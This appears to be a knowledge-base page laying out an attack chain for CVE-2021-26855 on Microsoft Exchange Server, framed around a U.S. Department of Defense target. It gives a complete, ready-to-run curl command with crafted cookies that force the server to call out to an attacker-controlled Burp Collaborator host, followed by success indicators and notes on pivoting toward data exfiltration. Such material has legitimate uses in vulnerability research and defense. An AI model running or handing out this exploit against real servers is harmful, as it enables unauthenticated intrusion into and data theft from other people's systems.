

---
tags:
  - ssrf
  - exchange
  - cve-2021-26855
  - rce
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/Burp-Collaborator]]'
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
  - Microsoft Exchange Server
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Trigger-SSRF-via-Crafted-HTTP-Request-to-OWA-Endpoint]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T04:39:02.378Z'
description: >-
  Exploits CVE-2021-26855 in Microsoft Exchange Server to achieve Server-Side
  Request Forgery (SSRF), allowing unauthorized outbound requests from a U.S.
  Department of Defense system.
skill_level: intermediate
impact_level: high
id: 527ca437-c0ff-4542-830e-c1a78b7b6f4a
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# SSRF Exploitation via CVE-2021-26855 on Microsoft Exchange Server

Multi-stage attack chain demonstrating exploitation of a remote code execution vulnerability in Microsoft Exchange Server to achieve SSRF on a U.S. Department of Defense system.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/Burp-Collaborator]]

### Target Environment

- Microsoft Exchange Server with OWA (Outlook Web Access) exposed
- Vulnerable to CVE-2021-26855 (typically versions 2013, 2016, 2019)
- Ports: 443 (HTTPS)
- Network access: Direct internet access to the target server

### Initial Access Requirements

- No credentials required (unauthenticated exploit)
- Public-facing Exchange server
- Attacker-controlled domain for OOB confirmation (e.g., Burp Collaborator)

## Detailed Attack Procedures

### Step 1: Trigger SSRF via CVE-2021-26855
procedure: [[procedures/Trigger-SSRF-via-Crafted-HTTP-Request-to-OWA-Endpoint]]

**Objective**: Exploit the vulnerability to coerce the Exchange server into making unauthorized requests to external resources, confirming SSRF.

**Instructions**: Identify the vulnerable /owa/auth/x.js endpoint through reconnaissance. Use [[commands/curl-ssrf-exploit-exchange]] to send a crafted GET request with malicious cookies that redirect the server to an attacker-controlled endpoint like Burp Collaborator.

```bash
curl -i -s -k -X $'GET' -H $'Host: █████' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11.1; rv:86.0) Gecko/20100101 Firefox/86.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -b $'X-AnonResource=true; X-AnonResource-Backend=burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3' $'https://████████/owa/auth/x.js'
```

Monitor the Burp Collaborator instance for inbound DNS or HTTP requests from the target server to validate the SSRF.

**Expected Output**: HTTP response from the server (e.g., 200 OK or error indicating processing), plus OOB interaction in Burp Collaborator confirming the server reached out to burpcollaborator.net.

**Success Indicators**:
- Inbound request logged in Burp Collaborator
- Server response headers show no immediate errors
- Potential for further internal pivoting if X-BEResource points to localhost resources

## Attack Chain Summary

### Key Achievements

1. Successful SSRF trigger without authentication on a DoD Exchange server
2. Confirmation of outbound connectivity to attacker-controlled domain
3. Potential for data exfiltration or internal network access via chained requests

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
